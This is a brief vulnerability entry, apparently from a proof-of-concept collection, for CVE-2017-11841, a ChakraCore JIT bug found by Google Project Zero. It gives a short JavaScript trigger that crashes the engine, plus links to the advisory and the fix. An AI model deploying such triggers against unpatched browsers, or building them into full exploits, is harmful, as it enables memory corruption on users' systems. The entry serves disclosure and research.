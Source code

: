 # CVE-2017-11841

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(obj) {
    for (let i in obj.inlinee.call({})) {
    }

    for (let i in obj.inlinee.call({})) {
    }
}

function main() {
    let obj = {
        inlinee: function () {
        }
    };
    
    for (let i = 0; i < 10000; i++)
        opt(obj);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11841)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1366)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/f8098c2c69a1d718485c5d8b334bcf789a13faf1)